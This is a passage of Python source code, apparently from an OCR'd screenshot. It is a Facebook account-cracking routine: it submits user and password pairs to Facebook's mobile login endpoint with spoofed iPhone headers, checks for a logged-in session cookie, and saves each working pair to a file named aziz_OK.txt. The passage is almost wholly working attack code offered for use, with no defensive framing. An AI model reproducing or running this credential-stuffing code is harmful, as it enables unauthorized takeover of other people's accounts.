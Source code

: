                     "jazoest":re.search('name="jazoest" value="(.*?)"', str(r.text)).group(1),

                    "uid":user,

                    "flow":"login_no_pin",

                    "pass":pw,

                    "next":"https://developers.facebook.com/tools/debug/accesstoken/"

                }

                header1 = {

                    "Host":cebok,

                    "cache-control":"max-age=0",

                    "upgrade-insecure-requests":"1",

                    "origin":"https://"+cebok,

                    "content-type":"application/x-www-form-urlencoded",

                    "user-agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 13_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 [FBAN/FBIOS;FBDV/iPhone12,1;FBMD/iPhone;FBSN/iOS;FBSV/13.4.1;FBSS/2;FBID/phone;FBLC/en_US;FBOP/5]",

                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",

                    "x-requested-with":"XMLHttpRequest",

                    "sec-fetch-site":"same-origin",

                    "sec-fetch-mode":"cors",

                    "sec-fetch-user":"empty",

                    "sec-fetch-dest":"document",

                    "referer":"https://"+cebok+"/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F",

                    "accept-encoding":"gzip, deflate br",

                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"

                }

                po = session.post(f"https://{cebok}/login/device-based/validate-password/?shbl=0", data = das, headers = header1, allow_redirects = False)

                if 'c_user' in session.cookies.get_dict():

                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                    print(f"\r{H} [aziz-ok 😜] {user} | {pw}")

                    wrt = '%s|%s' % (user,pw)

                    ok.append(wrt)

                    open('/sdcard/aziz_OK.txt' , 'a').write('%s\n' % wrt)
